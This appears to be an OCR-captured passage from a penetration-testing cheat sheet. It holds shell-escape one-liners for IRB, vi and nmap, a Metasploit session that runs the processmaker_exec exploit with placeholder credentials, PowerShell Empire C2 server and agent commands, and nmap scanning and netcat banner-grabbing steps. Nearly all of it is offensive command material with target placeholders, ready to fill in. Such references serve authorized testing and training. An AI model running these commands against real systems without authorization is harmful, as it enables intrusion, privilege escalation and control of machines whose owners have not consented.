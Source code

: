 ```
IRB: exec "/bin/sh"
vi: :!bash
vi: :set shell=/bin/bash:shell
nmap: !sh
```

**Frameworks**



```
# METASPLOIT - example
service postgresql start && msfconsole -q
db_status
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>
workspace -a <SERVICE_NAME>

search <SERVICE_NAME>
use exploit/multi/http/processmaker_exec
options
set USERNAME <USER>
set PASSWORD <PW>
run
```

```
# POWERSHELL EMPIRE - Install
sudo apt update && sudo apt install -y powershell-empire

## Server run
sudo powershell-empire server

## Client run (another terminal session)
sudo powershell-empire client
listeners
agents
interact <ID>
history
```

**Win Exploitation**



```
# Attacker's machine - Find target IP
cat /etc/hosts
ping <TARGET_IP>
ping <TARGET_FQDN>
mkdir <TARGET>
cd <TARGET>/

# Port Scanning - 1000 common ports or more advanced scans
nmap -sV <TARGET_IP>
nmap -T4 -PA -sC -sV -p 1-10000 <TARGET_IP> -oX nmap_10k
nmap -T4 -PA -sC -sV -p- <TARGET_IP> -oX nmap_all
nmap -sU -sV <TARGET_IP> -oX nmap_udp

# Banner Grabbing
nc -nv <TARGET_IP> 21

# Enumeration
service postgresql start && msfconsole
db_status
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>
workspace -a <SERVICE_NAME>
```